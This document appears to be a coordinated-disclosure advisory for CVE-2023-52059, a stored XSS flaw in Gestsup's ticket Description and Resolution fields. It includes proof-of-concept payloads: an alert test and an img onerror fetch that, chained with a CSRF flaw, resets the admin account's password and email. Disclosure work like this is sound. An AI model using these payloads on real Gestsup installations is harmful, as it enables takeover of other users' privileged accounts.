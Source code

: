 # CVE-2023-52059

## Summary

| ID                    | CVE-2023-52059                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | XSS                                                      |
| **Title**             | Stored XSS in ticket's description and resolution fields |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 5.4                                                      |
| **Author**            | Sopalinge                                                |

## Description

A lack of user input back-end sanitization allows remote attackers to perform a stored Cross-Site Scripting (XSS) attack in Gestsup < 3.2.46.

When creating or editing a ticket, an unprivileged user is able to intercept and edit the `Description` and `Resolution` fields directly in the request to bypass front-end sanitization and store malicious HTML content.


## Impact

An unprivileged user is then able to execute script on any user's browser who are viewing the malicious ticket.

The session cookie has the HttpOnly attribute, which protects it from client-side extraction.

However, combined with [CVE-2023-52060](../CVE-2023-52060/README.md), it can be used to take over privileged accounts directly from the Gestsup application.


## Proof of concept
### XSS

In the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to pop an alert when any user view the malicious ticket :

```
<img src=x onerror="alert('XSS')" />
```



https://github.com/Tanguy-Boisset/CVE/assets/83412402/deacf3e8-8f6e-44b2-ba41-85b895f534c9



### XSS and CSRF

In the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit [CVE-2023-52060](../CVE-2023-52060/README.md) to change the pasword, email and function of any user viewing the ticket :

```
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```



https://github.com/Tanguy-Boisset/CVE/assets/83412402/69514524-4530-47b6-907e-0b593bd4e691




## Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- 12/02/2024 : CVE publicly disclosed


## References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)
